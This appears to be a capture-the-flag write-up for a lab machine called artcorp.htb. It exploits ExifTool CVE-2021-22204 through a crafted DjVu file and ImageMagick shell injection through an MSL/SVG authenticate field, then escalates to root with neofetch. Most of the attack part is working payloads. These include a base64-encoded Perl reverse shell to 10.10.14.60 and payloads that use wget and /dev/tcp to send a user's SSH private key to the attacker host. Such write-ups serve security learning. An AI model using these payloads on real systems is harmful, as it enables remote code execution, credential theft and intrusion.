


# META



**January 31, 2022**

Nmap scan to discover open ports and service versions.

```c
Not shown: 65359 closed tcp ports (conn-refused), 174 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 434.77 second
```

Names collected from the page.

Judy E. - CEO

Sarah W. - Web Designer

Thomas S. - PHP Developer ———-

Subdomains scan:

```c
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
```



Exiftool vulnerability: To exploit just create a file called payload and put your command inside the template:

```c

sudo apt install djvulibre-bin
Inside the payload file -> (metadata "\c${system('whoami')};")
Compress it to bzz 
bzz payload payload.bzz
Make the djvu file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

```

Create a config file:

```c
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

Compress with exiftool now:

```c
exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg
```

Exploit working:


User:


After many hours trying get the reverse shell, I try use a perl reverse shell encoded in base64.

```c
use Socket;
socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));
if(connect(S,sockaddr_in(3301,inet_aton('10.10.14.60')))){open(STDIN,'>&S');
open(STDOUT,'>&S');
open(STDERR,'>&S');
exec('/bin/sh -i');};
))};")
```

Payload

```c
(metadata "\c${use MIME::Base64;eval(decode_base64('dXNlIFNvY2tldDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCd0Y3AnKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKDMzMDEsaW5ldF9hdG9uKCcxMC4xMC4xNC42MCcpKSkpe29wZW4oU1RESU4sJz4mUycpO29wZW4oU1RET1VULCc+JlMnKTtvcGVuKFNUREVSUiwnPiZTJyk7ZXhlYygnL2Jpbi9zaCAtaScpO307'))};")
```

[https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

Reading process with pspy64


/usr/local/bin/convert_images.sh


The running script is a ImageMagick in the version 7.0.10


This version has an exploit of shell injection using a svg file.

[ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

The command was executed:


```c
<image authenticate='ff" $(wget 10.10.14.60/`whoami`);"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```


Some ways of dump id_rsa on the machine: line per line using wget

```c
<image authenticate='ff" $(wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 1p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 2p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 3p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 4p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 5p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 6p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 7p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 8p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 9p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 10p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 11p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 12p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 13p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 14p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 15p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 16p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 17p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 18p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 19p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 20p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 21p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 22p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 23p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 24p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 25p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 26p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 27p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 28p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 29p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 30p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 31p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 32p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 33p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 34p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 35p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 36p | base64 | tr -d "\n"`;wget 10.10.14.60/`cat /home/thomas/.ssh/id_rsa | sed -n 37p | base64 | tr -d "\n"`);"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Using reverse connection:

```c
<image authenticate='ff" $(bash -c "cat /home/thomas/.ssh/id_rsa > /dev/tcp/10.10.14.60/80\");"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Or write SSH “id_rsa” in /dev/shm:  


To root we can use the neofecth command:


We can abuse of this env configuration 


Export the config to thomas:


Add some code to config.cnf and execute sudo NOPASSWD command:


Root with success!

